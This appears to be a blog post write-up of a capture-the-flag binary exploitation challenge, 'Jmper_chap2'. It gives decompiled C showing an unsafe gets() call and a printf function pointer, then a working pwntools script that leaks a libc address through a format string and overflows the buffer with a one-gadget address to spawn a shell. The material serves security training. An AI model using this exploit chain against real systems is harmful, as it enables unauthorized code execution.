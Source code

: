 +++
title = "Jmper_chap2"
subtitle = "Jmper_chap2"

# Add a summary to display on homepage (optional).
summary = "Jmper_chap2"

date = "2019-11-02T18:32:15+09:00"
publishDate = "2019-11-02T18:32:15+09:00"
expiryDate = ""

# Authors. Comma separated list, e.g. `["Bob Smith", "David Jones"]`.
authors = []

# Tags and categories
# For example, use `tags = []` for no tags, or the form `tags = ["A Tag", "Another Tag"]` for one or more tags.
tags = []
categories = []
keywords = []

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["deep-learning"]` references 
#   `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
# projects = ["internal-project"]

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder. 
[image]
  # Caption (optional)
  caption = ""

  # Focal point (optional)
  # Options: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight
  focal_point = ""

draft = false
+++

```c
void main(__int64 argc, char **argv, char **env)
{
  char **_argv; // [sp+0h] [bp-20h]@1
  int _menu; // [sp+14h] [bp-Ch]@2

  _argv = argv;
  qword_202060[29] = (void (__fastcall *)(_QWORD, _QWORD))off_202010;
  setvbuf(stdout, 0, 2, 0);
  puts("let's Chasing jumper. Paladin!");
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      _menu = getchar();
      getchar();
      fflush(stdin);
      if ( _menu != '1' )
        break;
      printf("Damn! we lost jumper trace.. you should find it yourself.");
    }
    if ( _menu == '2' )
      break;
    puts("wrong input!");
  }
  printf("open the portal. FIRST TRY : ");
  if ( !_setjmp((struct __jmp_buf_tag *__attribute__((__org_arrdim(0,1))) )&qword_202060[4]) )
    sub_95A((__int64)qword_202060);
  puts("\nYou Failed! I'll give you one more chance! ");
  printf("SECOND TRY : ");
  if ( !_setjmp((struct __jmp_buf_tag *__attribute__((__org_arrdim(0,1))) )&qword_202060[4]) )
    sub_95A((__int64)qword_202060);
  puts("You Failed Again! we lost signal..");
  exit(0);
}
```

메뉴는 다음과 같습니다.

```c
int menu()
{
  puts("what do you want? ");
  puts("1 : find jumper's traces.");
  puts("2 : open the portal ");
  return printf("> ");
}
```

```c
void __fastcall __noreturn sub_95A(__int64 s)
{
  fflush(stdin);
  gets(s);
  if ( strchr((const char *)s, 'n') )
  {
    puts("wait, what are you doing?");
    exit(0);
  }
  qword_202060[29](s, 'n');
  longjmp((struct __jmp_buf_tag *__attribute__((__org_arrdim(0,1))) )(s + 32), 1);
}
```

```c
.data:0000000000202010 off_202010      dq offset printf        ; DATA XREF: main+1Ao
```

```py
from pwn import *

def main():
    r = remote('172.17.0.2', 1300)
    #r = remote('1.224.175.17', 9982)
    libc = ELF('./libc.so.6')
    one_shot = 0x10a38c

    r.recvuntil('> ')
    r.sendline(str(2))

    raw_input()
    r.recvuntil(': ')
    r.sendline('%2$p')
    a0 = r.recvline()
    libc.address = int(a0, 16) - 413312
    log.info(hex(libc.address))
    # %2$p = libc + 413312

    r.recvuntil(': ')
    r.sendline('A' * 0xe8 + p64(libc.address + one_shot))
    #r.sendline('a' * (8 * 29) + 'b')

    r.interactive()

if __name__ == '__main__':
    main()
```
